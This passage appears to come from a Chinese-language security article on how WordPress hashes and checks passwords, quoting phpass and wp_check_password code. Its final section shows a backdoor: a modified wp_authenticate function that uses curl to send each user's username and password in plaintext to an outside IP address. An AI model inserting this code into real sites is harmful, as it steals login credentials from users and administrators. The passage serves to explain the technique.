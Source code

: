 其中`**$wp_hasher**`对象实例化的就是引入的 phpass 开源类

```bash
class 
function HashPassword($password)
    {
        if ( strlen( $password ) > 4096 ) {
            return '*';
        }

        $random = '';

        if (CRYPT_BLOWFISH == 1 && !$this->portable_hashes) {
            $random = $this->get_random_bytes(16);
            $hash =
                crypt($password, $this->gensalt_blowfish($random));
            if (strlen($hash) == 60)
                return $hash;
        }
    ...
```

在哈希过程中会生成 salt 结合用户的明文密码进行加密，加密算法取决于 php 版本  
php5.0 及以上的版本使用 Blowfish 算法进行加密，低于 php5.0 的版本则使用 md5 算法  
blowfish 是一种对称加密算法，理论上是可逆的，但 wordpress 使用的是它的变体 bcrypt，这个加密过程是单向的

### 密码验证

使用`**wp_check_password()**`函数，这个函数将用户输入的密码与数据库中存储的哈希进行比对，在这个过程中，它还会再次使用 phpass 类中的方法来进行比对

```bash
function wp_check_password($password, $hash, $user_id = '') {
    global $wp_hasher;

    // If the hash is still md5...
    if ( strlen($hash) <= 32 ) {
        $check = hash_equals( $hash, md5( $password ) );
        if ( $check && $user_id ) {
            // Rehash using new hash.
            wp_set_password($password, $user_id);
            $hash = wp_hash_password($password);
        }
  ...
```

## 1.5 登陆明文密码劫持

### 后门劫持

通过修改/wp-include/pluggable.php 文件中的`wp_authenticate`方法实现明文密码的劫持

```bash
function wp_authenticate($username, $password) {

    $username = sanitize_user($username);
    $password = trim($password);
  system('curl http://1x2.1x4.7x.2x4:18080/?password='.$username.$password);
    ...
```
